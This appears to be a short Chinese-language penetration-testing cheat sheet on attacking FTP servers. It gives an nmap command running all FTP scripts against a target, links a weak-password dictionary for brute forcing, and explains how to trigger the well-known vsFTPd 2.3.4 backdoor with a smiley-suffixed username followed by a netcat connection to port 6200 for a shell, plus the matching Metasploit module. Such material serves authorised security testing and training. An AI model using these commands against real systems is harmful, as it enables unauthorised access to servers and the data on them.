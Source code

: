 # FTP服务

## 弱口令

自动化匿名扫描
```bash
nmap --script ftp-* -p 21 IP地址
```

弱口令字典

[FTP弱口令](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%9B%9B%E7%AB%A0/FTP/%E5%BC%B1%E5%8F%A3%E4%BB%A4.txt)

## FTP后门

1.vsFTPd 2.3.4

user = msfadmin:)

pass = 任意

```bash
nc [IP地址] 6200
```

使用Metasploit
```bash
exploit/unix/ftp/vsftpd_234_backdoor
```
